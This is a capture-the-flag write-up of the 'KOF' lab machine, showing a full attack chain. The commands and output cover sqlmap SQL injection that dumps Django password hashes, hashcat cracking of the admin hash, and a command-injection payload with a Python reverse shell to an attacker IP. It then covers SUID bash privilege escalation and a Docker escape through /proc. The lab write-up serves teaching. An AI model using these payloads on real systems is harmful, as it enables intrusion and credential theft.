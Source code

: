 # KOF
![index image](../images/kof/index.png)

## Recon
In the beginning, I used NMAP with the following parameters. I found only ports 22 and 8000 open (it seems to be a Django application running on Linux).
```
sudo nmap 172.16.11.225 -Pn -sSVC -T5

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.9.19
|_http-server-header: WSGIServer/0.2 CPython/3.9.19
|_http-title: KOF 2002 Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I performed fuzzing on the Django application using Feroxbuster and discovered three directories: register, panel, and dashboard.
```
feroxbuster -u http://172.16.11.225:8000/

found:5       errors:0      
http://172.16.11.225:8000/ 
http://172.16.11.225:8000/register/ 
http://172.16.11.225:8000/panel/ 
http://172.16.11.225:8000/dashboard/
```
![ferox image](../images/kof/ferox.png)

Upon accessing the page, the most prominent feature is a search field that passes the `q` parameter via GET and displays the searched team.
![q parameter image](../images/kof/q_parameter.png)

When testing this endpoint with SQLMap, it was identified that the database uses SQLite and that the parameter is vulnerable to SQL injection (SQLi).
`python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --risk 3 --level`

![sqlmap 1 image](../images/kof/sqlmap_q1.png)
![sqlmap 2 image](../images/kof/sqlmap_q2.png)

## Exploitation
We can include the `--dbms` sqlite flag to specify that the database in use is SQLite.

To enumerate the database tables, we use the `--tables` option and execute the following arguments: `--dbms sqlite --threads 10`.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --tables --threads 10

[12 tables]
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| authentication_teams       |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
| sqlite_sequence            |
+----------------------------+
```

To discover the columns of a table, we use the `-T table_name --columns` option. In our case, we'll retrieve the columns from the `auth_user` table, as we have a `/panel` endpoint where we can attempt to log in.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user --columns

Table: auth_user
[11 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date_joined  | datetime |
| email        | varchar  |
| first_name   | varchar  |
| id           | integer  |
| is_active    | TEXT     |
| is_staff     | TEXT     |
| is_superuser | TEXT     |
| last_login   | datetime |
| last_name    | varchar  |
| password     | varchar  |
| username     | varchar  |
+--------------+----------+
```

From the `auth_user` table, we want to extract the `username`, `password`, `is_staff`, and `is_superuser` columns. Most likely, the user with `is_staff` and `is_superuser` set to true will be the admin.
```
$ python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user -C username,password,is_staff,is_superuser --dump

Table: auth_user
[3 entries]
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| username | password                                                                                 | is_staff | is_superuser |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| lucas    | pbkdf2_sha256$600000$uK8mOpGqJgz6n8NpSq6sW4$teEmzYbauC23hUiCWchvGVcOxbPkNOIEq4yZ3ZCc2vw= | 0        | 0            |
| sitara   | pbkdf2_sha256$600000$hgmRaAKIjaJXPw15HJtGzM$rcr8QB224t9Rf8e1AKpyfimvWLTJl1r+ZCGTtvKI8X4= | 0        | 0            |
| vanessa  | pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ= | 1        | 1            |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
```

The user "vanessa" is likely the admin. We can use Hashcat to identify the hash type (based on the hash itself, we conclude it’s a PBKDF2-SHA256 from Django). To do this, we extract the hash of the user and save it in a file without an extension, named `hash`. From there, we can attempt to crack the hash using Hashcat with mode `10000` (for PBKDF2-SHA256) and the Rockyou wordlist.
```
hashcat --identify hash

The following hash-mode match the structure of your input hash:

    # | Name                                                       | Category
======+============================================================+======================================
10000 | Django (PBKDF2-SHA256)                                     | Framework
```
```
hashcat -m 10000 hash /usr/share/seclists/Passwords/rockyou.txt

pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ=:princess1
```

Therefore, the admin password for "vanessa" is `princess1`. Upon accessing the `/panel` endpoint with admin creds, we encounter this page.
![panel image](../images/kof/panel1.png)

By clicking to generate an IP and then on "Test Connection," we can analyze the request. A POST request is made to the backend with the CSRF, game, vpn, and test_connection parameters. It seems that this feature tests the connection to another host in some way.
![panel image](../images/kof/panel2.png)

Since the machine doesn't have internet access, it won't be able to reach any public IP. However, if we place a local IP in the `test_connection` parameter, it responds that the connection was successful, and the test indicates that there is a connection.
![panel image](../images/kof/panel3.png)

What might be happening here is that we are directly passing the IP, and the server is executing some action. We can try to establish a reverse connection to our machine by injecting a ; (since it could be executed in bash) and using Python. Payload:
```
;export RHOST="10.0.10.235";export RPORT=1234;python-c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```
![shell request image](../images/kof/shell_request.png)
![shell image](../images/kof/shell.png)

To upgrade the shell to a full TTY, we can follow these steps:
* Type `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
* Press `Ctrl+Z` to background the shell as a service.
* Type `stty raw -echo && fg`.
* Press `Enter`.
* Finally, type `export TERM=xterm`.

## Post exploitation
At first glance, using `ps aux`, I identified that we are in a Docker environment. I couldn't find the first flag, meaning the first objective is to escalate to root, and the second is to perform a Docker escape.

After running `linpeas` on the server, I found two endpoints to investigate. Upon analyzing this information, we can conclude that `/usr/bin/bash` may be exploitable (it has the SUID bit set).
```
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts

-rwsr-xr-x 1 root root 1.3M Apr 23  2023 /usr/bin/bash 

═╣ /proc mounted? ................. Yes
```

```
cp /bin/bash /tmp/ #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

By exploiting this, we will escalate privileges to root in order to retrieve the first flag in `/root`.

## Docker escape/breakout
To perform the Docker breakout/escape, I will use the `/proc` endpoint. First, I need to retrieve the Docker process ID by running `ps aux | grep docker`.
![id process image](../images/kof/id_proc.png)

With this, we can access the Docker process directory, navigate to the root directory, and then escape to the root directory of the host machine running the Docker container. So `cd /proc/2741/root/`.
![docker breakout image](../images/kof/doker_breakout.png)

Here are the two flags: one for the default root user after privilege escalation (`flag.txt`), and the other for the Docker breakout (`root.txt`).
**Disclaimer**: Docker breakout can be achieved in other ways, such as using Process Injection.
- [Linux Process Injection - W3ndige](https://github.com/W3ndige/linux-process-injection/)
- [7 Ways to Escape a Container - Panoptica](https://www.panoptica.app/research/7-ways-to-escape-a-container)